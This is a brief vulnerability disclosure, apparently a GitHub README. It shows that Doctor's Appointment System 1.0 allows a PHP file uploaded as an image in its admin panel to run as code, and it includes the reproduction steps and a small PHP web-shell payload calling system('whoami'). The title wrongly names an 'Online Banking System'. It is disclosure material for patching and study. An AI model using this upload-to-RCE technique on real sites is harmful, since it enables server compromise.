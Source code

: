 # Tittle: Online Banking System (File Upload to RCE)

## Author: (B3nj1)

### Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)

### Software Link: [Doctor's Appointment System](https://www.sourcecodester.com/php/14467/simple-doctors-appointment-system-using-phpmysql-source-code.html)

### Version: 1.0

## CVE: 
-  **Description:** Doctor's Appointment System 1.0 is vulnerable to File Upload to RCE via Image upload from the administrator panel. An attacker can obtain remote command execution just by knowing the path where the images are stored.


### Steps to reproduce:
- 1- Go to [http://localhost/doctors_appointment/admin/index.php?page=site_settings](http://localhost/doctors_appointment/admin/index.php?page=site_settings)
- 2- Add an image, which in this case would be our payload

![image](https://user-images.githubusercontent.com/76759292/166495171-b6d25163-254e-49f7-9c33-4e387c7f986e.png)

- 3- Going to that url we will execute the code

http://localhost/doctors_appointment/assets/img/1651595100_b3nj1.php

![image](https://user-images.githubusercontent.com/76759292/166495582-365df815-f017-40d9-ba44-078907775053.png)


### Payload

```php
<?php
echo system('whoami');
echo "\nits working!!";
?>
```
